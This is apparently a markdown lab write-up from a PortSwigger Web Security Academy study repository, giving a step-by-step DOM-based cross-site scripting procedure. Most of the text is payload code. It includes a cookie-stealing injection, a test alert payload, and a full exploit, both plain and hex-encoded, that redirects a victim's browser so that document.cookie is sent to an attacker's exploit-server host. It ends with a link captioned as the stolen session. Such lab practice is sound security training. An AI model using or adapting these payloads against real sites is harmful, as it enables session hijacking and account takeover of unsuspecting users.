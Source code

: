 ## XSS-DOM-Procedure

## Check your session cookie:
```js
"-(window["document"]["location"]="/?"+window["document"]["cookie"])-"
```

## TEST Payload:
```js
burpdomxss","test":alert(window["document"]["cookie"])}//
```

## The Exploit before preparing:
```js
<script>
location='https://<CHANGE-HERE>.web-security-academy.net/?SearchTerm="-(window["document"]["location"]="https://exploit-<CHANGE-HERE>%2eexploit-server%2enet/?"+window["document"]["cookie"])-"';
</script>
```

## Before ENCODE the exploit by using BurpSuite Decoder:
```js
"-(window["document"]["location"]="https://exploit-0af4008003a936d2c1563c1001a30084%2eexploit-server%2enet/?"+window["document"]["cookie"])-"
```

## THE ACTUAL EXPLOIT:
```js
<script>
location='https://0a3200d2032c36d2c1163a22005f00df.web-security-academy.net/?SearchTerm=%22%2d%28%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%6c%6f%63%61%74%69%6f%6e%22%5d%3d%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%34%30%30%38%30%30%33%61%39%33%36%64%32%63%31%35%36%33%63%31%30%30%31%61%33%30%30%38%34%25%32%65%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%25%32%65%6e%65%74%2f%3f%22%2b%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%63%6f%6f%6b%69%65%22%5d%29%2d%22';
</script>
```
## The stolen session:
![](https://github.com/nu11secur1ty/PortSwigger-Web-Security-Academy/blob/main/Burp-Suite-Certified-Practitioner/docs/XSS-DOM-Procedure/XSS-Payload.png)
